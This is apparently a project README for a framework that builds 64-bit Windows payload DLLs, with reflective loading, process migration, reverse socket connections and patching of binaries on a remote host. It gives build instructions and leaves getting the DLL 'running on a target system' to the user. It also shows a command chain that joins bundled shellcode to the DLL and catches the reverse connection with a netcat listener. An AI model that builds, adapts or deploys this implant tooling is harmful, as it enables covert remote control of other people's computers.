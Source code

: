 Framework
=========

A framework for writing custom 64-bit Win32 payloads
in the form of a dll.

The framework provides some userspace tools for
the payloads:

 * Reflective loading
 * Process migration
 * Reverse socket conections
 * Patching DLLs and EXEs on remote host

Building
--------

You will need:

 * Cygwin (64 bit) -- make, mingw64-x86_64-gcc-g++
 * Ruby (Cygwin's or native Window's version, doesn't matter)
 * Git (well duh)
 
Fire up cygwin

    ```
    git clone https://github.com/floomby/framework.git
    cd framework
    ```

Edit config.h to suit your need. The comments explain things.

    ```
    make dll
    ```

This builds framework.dll. It is up to you to get
it running on a target system. There is shellcode
in the shellcode directory to help you get started.

Assuming RPORT => 1234 and RHOST => localhost you
can do the following

    ```
    make tools
    cd shellcode/loader
    ./loader | ruby >sc && cat ../../framework.dll >>sc
    (../../tools/sc-test/sc-test sc &) && nc -l 1234

    ```
    
Usage
-----

COMING SOON

Bugs
----

Right now I am aware of two bugs, both are minor

 * memory is not freeded properly on migration out of process
 * sc-test stays running for a couple minutes when launched as
   described in the instructions, this is due to it waiting
   for all the windsock threads to terminate before exiting

Notes
-----

 * patch is incomplete
 * this is not much better than a normal shell
 * it can be cached to disk
 
All of these will be fixed in the nearish future.
